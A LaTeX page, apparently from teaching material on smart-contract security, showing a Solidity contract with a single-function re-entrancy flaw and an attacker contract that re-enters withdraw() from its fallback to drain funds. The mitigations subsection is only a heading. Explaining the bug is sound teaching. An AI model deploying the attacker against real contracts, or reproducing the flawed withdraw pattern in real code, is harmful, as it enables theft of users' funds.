 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
    \begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy --- Vulnerable Contract]
contract Victim {
    mapping(address => uint) private balances;
 
    function withdraw() public {
        uint amount = balances[msg.sender];
        
        // Send the funds to the caller using low-level call
        // VULNERABILITY: This external call can be exploited to reenter the contract
        (bool success, ) = msg.sender.call{value: amount}("");
        
        require(success);
        
        // Update the state AFTER the external call (too late!)
        // This should happen BEFORE the external call to prevent reentrancy
        balances[msg.sender] = 0;
    }
 
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}
\end{lstlisting}
\end{minipage}

\noindent
\begin{minipage}{\textwidth}
    \begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy --- Attacker Contract]
  contract Attacker {
      Victim victim;
      uint256 private initialDeposit;
  
      constructor(address _vulnerable) {
          victim = Victim(_vulnerable);
      }
  
      function attack() public payable {
          initialDeposit = msg.value;
          victim.deposit{value: msg.value}();
          victim.withdraw();
      }

      // Fallback function that gets triggered when the victim contract sends ETH
      receive() external payable {
          if (address(victim).balance > initialDeposit) {
            // Re-enter the withdraw function before the victim updates its state
            // This allows us to withdraw the same funds multiple times
            victim.withdraw();
          }
      }
  }
\end{lstlisting}
\end{minipage}

\subsection{Re-Entrancy Mitigations}
\end{document}

